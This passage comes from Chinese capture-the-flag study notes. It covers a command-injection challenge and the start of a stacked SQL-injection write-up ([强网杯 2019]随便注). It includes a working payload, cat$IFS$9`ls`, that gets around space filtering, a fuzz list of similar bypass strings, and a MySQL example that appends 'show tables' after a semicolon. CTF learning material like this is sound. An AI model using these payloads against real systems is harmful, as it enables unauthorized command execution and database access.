 后面发现空格对空格进行了绕过，得出payload如下

解释：$IFS$9 对空格进行绕过，使用反引号对`ls`进行包裹，使得`ls`命令得到的结果返回给`cat`进行二次操作

```
cat$IFS$9`ls`
```

Kali 效果展示





==Fuzz字典==

```
+
cat+`ls`
$
cat$`ls`
%09
cat%09`ls`
$IFS$9
cat$IFS$9`ls`
${IFS}
cat${IFS}`ls`
```

==flag输出==

<img src="CTF.assets/image-20230511234029608.png" alt="image-20230511234029608" style="zoom:50%;" />

## [强网杯 2019]随便注

#### 前置知识：堆叠注入

原理：通过使用`;`闭合前面的SQL语句。再在后面构造新的SQL语句

```SQL
mysql> select * from int_intruder where id=1;show tables;
+----+----------+----------+
| id | username | passwd   |
+----+----------+----------+
|  1 | jake     | Aa123456 |
+----+----------+----------+
1 row in set (0.01 sec)

+--------------------+
| Tables_in_intruder |
+--------------------+
| int_intruder       |
| str_intruder       |
```